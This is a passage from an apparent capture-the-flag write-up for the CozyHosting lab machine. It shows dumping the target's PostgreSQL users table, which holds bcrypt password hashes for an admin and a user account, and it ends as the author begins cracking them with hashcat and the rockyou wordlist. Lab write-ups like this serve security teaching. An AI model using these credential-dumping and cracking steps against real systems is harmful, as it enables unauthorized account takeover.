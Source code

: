 It has two tables, `hosts` and `users`:

```
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

```

The `hosts` table isn’t interesting, but the `users` table has hashes in it:

```
cozyhosting=# select * from users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

### Crack Hash

I’ll make a `hashes` file with those two hashes:

```
$ cat hashes
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

```

`hashcat` isn’t able to automatically detect the hash type:

```
$ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```
